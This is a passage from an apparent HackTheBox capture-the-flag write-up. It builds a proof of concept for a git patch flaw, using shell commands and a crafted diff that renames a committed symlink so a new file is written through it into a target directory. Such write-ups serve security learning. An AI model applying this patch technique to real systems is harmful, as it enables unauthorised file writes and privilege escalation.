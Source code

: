 There’s tests for creating, modifying, and deleting files. This is basically a POC.

#### POC

Before I start working with `git`, I’ll need to set some global variables to keep `git` from yelling at me:

```

cbrown@snoopy:~$ git config --global user.name "cbrown"
cbrown@snoopy:~$ git config --global user.email "cbrown@snoopy.htb"
cbrown@snoopy:~$ git config --global init.defaultBranch main

```

Now I’ll create a directory in `/dev/shm` and make it a Git repo:

```

cbrown@snoopy:~$ mkdir /dev/shm/poc
cbrown@snoopy:~$ cd /dev/shm/poc
cbrown@snoopy:/dev/shm/poc$ git init
Initialized empty Git repository in /dev/shm/poc/.git/

```

To test, I’m going to try to create a file in a directory I own (without using `sudo`) to make troubleshooting easier. I’ll create `/home/cbrown/0xdf`. First I need to create a symlink that points to target directory and add it to the repo:

```

cbrown@snoopy:/dev/shm/poc$ ln -s /home/cbrown/ symlink
cbrown@snoopy:/dev/shm/poc$ git add symlink
cbrown@snoopy:/dev/shm/poc$ git commit -m "add symlink"
[main (root-commit) 6eba49c] add symlink
 1 file changed, 1 insertion(+)
 create mode 120000 symlink

```

I’ll create the `patch` file, using the data from the test, modifying it slightly:

```

diff --git a/symlink b/renamed-symlink
similarity index 100%
rename from symlink
rename to renamed-symlink
--
diff --git /dev/null b/renamed-symlink/0xdf
new file mode 100644
index 0000000..039727e
--- /dev/null
+++ b/renamed-symlink/0xdf
@@ -0,0 +1,1 @@
+busted

```
